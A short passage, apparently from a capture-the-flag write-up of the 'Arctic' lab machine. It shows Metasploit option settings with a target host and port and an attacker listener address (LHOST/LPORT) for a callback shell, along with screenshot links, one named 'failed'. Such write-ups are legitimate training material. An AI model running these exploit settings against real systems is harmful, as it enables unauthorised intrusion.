 we find that their are a bunch of exploit but what is most interesting is the one that can be done with `metasploit` 

# Exploitation


![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/metasploit.png)

```sh
show option
set RHOSTS 10.10.10.11
set RPORT 8500
set LHOST 10.10.14.9
set LPORT 4444
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/failed.png)
